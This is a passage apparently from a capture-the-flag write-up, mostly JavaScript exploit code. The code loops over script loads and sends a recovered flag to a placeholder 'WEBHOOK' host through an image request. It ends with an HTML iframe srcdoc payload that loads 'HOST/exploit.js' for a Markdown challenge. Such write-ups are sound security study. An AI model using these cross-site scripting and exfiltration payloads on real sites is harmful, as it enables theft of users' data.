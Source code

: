 ```javascript
        index = 0;
        new Image().src=("WEBHOOK/?flag=" + encodeURIComponent(flag));
        search();
    }
    s.onerror  = () => {
        index++;
        search();
    }
    document.head.appendChild(s);
}
search();
```
And in the Markdown challenge, we simply used
```html
<iframe srcdoc="<script src='HOST/exploit.js'></script>"/>
```
That's it.